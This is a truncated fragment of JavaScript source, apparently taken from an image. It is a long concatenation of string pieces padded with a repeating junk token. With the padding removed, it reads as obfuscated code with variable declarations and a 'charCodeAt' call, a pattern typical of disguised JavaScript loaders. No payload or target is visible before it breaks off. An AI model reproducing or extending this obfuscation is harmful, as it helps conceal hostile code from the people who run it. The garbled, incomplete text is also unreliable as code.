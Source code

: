 ```javascript
'ecoDlnXPECarCGJpWSFwRVsYtUhiOuBNMecoDlnXP'+
'E'+
'CodeGJpWSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPECt'+
'(GJ'+
'pWSFwRVsYtUhiOuBNMecoDlnXPECbGJpWSFwRVsYtUhiOuBNMecoDlnXPECYGJpWSFwRVsYtUhiOuBNMecoDlnXPECjGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECxGJpWSFwRVsYtUhi'+
'OuBNMecoDlnX'+
'PECQG'+
'JpWSFwRVsYtUhiO'+
'uBNMecoDlnXPEC'+
'tGJpWSFwRV'+
'sYtUhiOuBNM'+
'ecoDlnXPECuwhRGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECGnm'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECVN); GJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPEC'+
'}GJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPECvGJpWSFwRVsYtUhiOu'+
'BNMecoDlnXP'+
'ECar eG'+
'JpWSFwRVsYtUhi'+
'OuBNMe'+
'coDlnXPECYLGJpWSFwRVsYtUhiOuBNMecoDlnXPECs'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECKG'+
'JpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPECMroGJpWSFwRVsYtUhiOu'+
'BNMecoDlnXPE'+
'CgNxGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECaGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPECfGJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPEClpJG'+
'JpWSFw'+
'RVsYtUhiOuBNMecoDlnXPECzGJpWSFwRVsYtUhiOuBNMecoDlnXPECk GJpWSF'+
'wRVsYtUhiOuB'+
'NMec'+
'oDlnXPEC=GJpWSFwRVsYtUhiOuBNMecoDlnX'+
'PEC GJpWSFwRVsYtUhiOuBNMecoDlnXPEC7GJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPEC04GJpWSFwR'+
'VsYtUhiOuBN'+
'MecoDlnXPEC8GJpWSFwRVsYtUhiOuBNMecoDlnXPEC1GJpWSF'+
'wRVsYtUhiO'+
'uBNMecoDlnXPEC922/7GJpWSFwRVsYtUhiOuBNMecoDlnXPEC0GJpWSFwRVsYtUhiOuBNMecoDlnXPEC4GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPEC'+
'8GJpWSF'+
'wRVsYtUhiOuBNMe'+
'coD'+
'lnXPEC1GJpWSFwRVsYtUhiOuBNMecoDlnXPEC9GJpWSFwRVsYtUhiOuBNMecoDlnXPEC22; vaGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CrGJpWSFwRVsYtU'+
'hiOuBNMeco'+
'DlnXPEC GJpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECEGJpWSF'+
'wRVsYtUh'+
'iOuBNMec'+
'oD'+
'lnXPECDGJpWSFwRVsYtUhiOuBNMecoDlnXP'+
'E'+
'CpGJpWSFwRVsYtUhiOuBNMecoDlnXPECw'+
'GJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPECxKGJpWSFwRVsYtUhiOuBNMecoDlnXPECqFkBGJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPECOGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECUnGJpWSFw'+
```